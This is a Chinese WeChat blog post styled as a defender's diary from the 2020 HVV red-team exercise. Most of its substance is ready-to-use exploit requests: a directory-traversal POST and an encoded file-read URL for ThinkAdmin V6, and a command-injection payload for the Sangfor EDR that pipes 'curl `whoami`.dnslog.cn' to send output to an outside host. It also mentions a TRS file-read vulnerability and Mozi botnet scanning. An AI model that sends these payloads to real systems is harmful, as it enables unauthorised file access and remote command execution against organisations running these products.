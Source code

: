 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/3t7r7FCirDEAsXcf2QMomw)

**没人比我更了解攻击队, 他们肯定已经写好投降书了。**  

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7SRRMYTMknRL85xQOXYGRr742fBDpqggkD1teJVN9aiaDtiaFAiaIaAZXgocfGZcIib1GWXqXOm9G4AcA/640?wx_fmt=png)

我想给大家说个消息:“现在攻击方的分数都不低了”

当你还在创作**防守日记**

突然身后站着一位攻击队选手正在认真的记着桌面上的 VPN 登录密码....

1、ThinkAdminV6 任意文件操作

Update.php 三个函数未校验访问权限

1、目录遍历注意 POST 数据包 rules 参数值需要 URL 编码

POST /admin.html?s=admin/api.Update/node  

rules=%5B%22.%2F%22%5D

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7SRRMYTMknRL85xQOXYGRr7DWv6K9dialdlZnu8vqGyA0WoUcynUdmUSOd2FaYbvtdibORuRZYjCnEg/640?wx_fmt=png)

2、文件读取, 后面那一串是 UTF8 字符串加密后的结果。计算方式在 Update.php 中的加密函数。

/admin.html?s=admin/api.Update/get/encode/

34392q302x2r1b37382p382x2r1b1a1a1b1a1a1b2r33322u2x2v1b2s2p382p2q2p372t0y342w34

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7SRRMYTMknRL85xQOXYGRr7Oibp7V9lCwEr7iabHlbkeM2oGAA9NXAVicPibuooNLZibSicameGLQFE7b7w/640?wx_fmt=png)

2、深信服 EDR 远程命令执行

遇到这样的漏洞反手就是一个赞。  

/api/edr/sangforinter/v2/cssp/slog\_client?token=eyJtZDUiOnRydWV9

{"params": "w=123\\"'1234123'\\"|curl \`whoami\`.dnslog.cn"}

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7SRRMYTMknRL85xQOXYGRr7uha4TibQ9konPx64yN566VicssdmqOOUhaAtribDr4AMnGtdmpF9cPX5g/640?wx_fmt=png)

0day 预警:

拓尔思 TRSWAS5.0 文件读取漏洞（CNVD-2020-27769）

2020 年 9 月 16 日 星期三 阴转晴

今天夜班，凌晨 2 点，发现内网有流量，得到情报说有攻击队向客户内网扔了 2 个未知 0day，客户宁静紧急关停机房，监测平台都打不开了，两眼一摸瞎。

战争已经白热化，没有监测平台，我们防守队依然在，人在客户阵地在，只要我不倒，客户就不会出局。

摸到了兜里的速效救心丸，瞬间安心多了。

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7SRRMYTMknRL85xQOXYGRr7tMY163yK8tb4VlJSPIT8S4TPr7KpQhLEoImd2dcUxicpkBKZibu9oBTQ/640?wx_fmt=png)  

今天未免也太平静了吧。

刚来交接班看到今天告警平台的流量只有寥寥无几。

感到非常讶异![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7SRRMYTMknRL85xQOXYGRr7N6oJiaNibEXqt7SXYEJ6FaUDmK5FNGQvwRZ3ocUyYjGPLyGiaO3H67ffQ/640?wx_fmt=png)

大多数都是印度阿三扫描的告警  

其中有一条是中国浙江的 IP 同样也是这种数据包。

我简单分析了一下

这个恶意程序 Mozi, 如果被入侵成功后

迅速变成僵尸网络的一个节点, 最终组建成庞大僵尸网络

很显然浙江的 IP 已经被控制变成了傀儡机  

不断的向其他网段发起扫描  

感觉有意思的来了

那这次 Hvv 会不会升级成一场国际网络战争呢  

渗了个透 发起了一个读者讨论 反转再反转 精选讨论内容

余下 4 条讨论内容

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7SSJOGRbwFbueTWTmOcwYNpIWdrjW4rBU9eh4fHWEpxvvQxaAPeoNVa0zyCzicDpyJELibkcz5Z7rpQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7SRRMYTMknRL85xQOXYGRr7rAes0drcRylib9Vfy3ucCjulUfILTplxMLf0edjyRa0P7LFkIrYZY0g/640?wx_fmt=png)